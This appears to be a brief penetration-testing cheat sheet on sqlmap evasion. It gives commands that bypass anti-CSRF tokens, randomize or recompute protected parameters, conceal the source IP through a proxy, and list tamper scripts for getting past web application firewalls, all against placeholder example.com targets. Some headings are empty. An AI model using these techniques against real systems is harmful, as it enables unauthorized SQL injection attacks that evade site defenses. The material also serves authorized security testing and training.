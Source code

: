 ## Anti-CSRF Token Bypass
--csrf-token
```shell-session
sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"
```

## Unique Value Bypass
```shell-session
sqlmap -u "http://www.example.com/?id=1&rp=29125" --randomize=rp --batch -v 5 | grep URI
```

## Calculated Parameter Bypass
Sometimes, a parameter is calculated by another parameter. In this case, use --eval.
```shell-session
sqlmap -u "http://www.example.com/?id=1&h=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib; h=hashlib.md5(id).hexdigest()" --batch -v 5 | grep URI
```

## IP Address Concealing
--proxy (e.g. --proxy="sock4://177.39.187.70:33283")

## WAF Bypass

## User-agent Blacklisting Bypass

## Tamper Scripts
- 0eunion
- base64encode
- between
- commalesslimit
- equaltolike
- halfversionedmorekeywords
- modsecurityversioned
- percentage
- plus2concat
- randomcase
- space2comment
- space2dash
- space2hash
- space2mssqlblank
- space2plus
- space2randomblank
- symboliclogical
- versionedkeywords
- versionmorekeywords

## Miscellaneous Bypasses
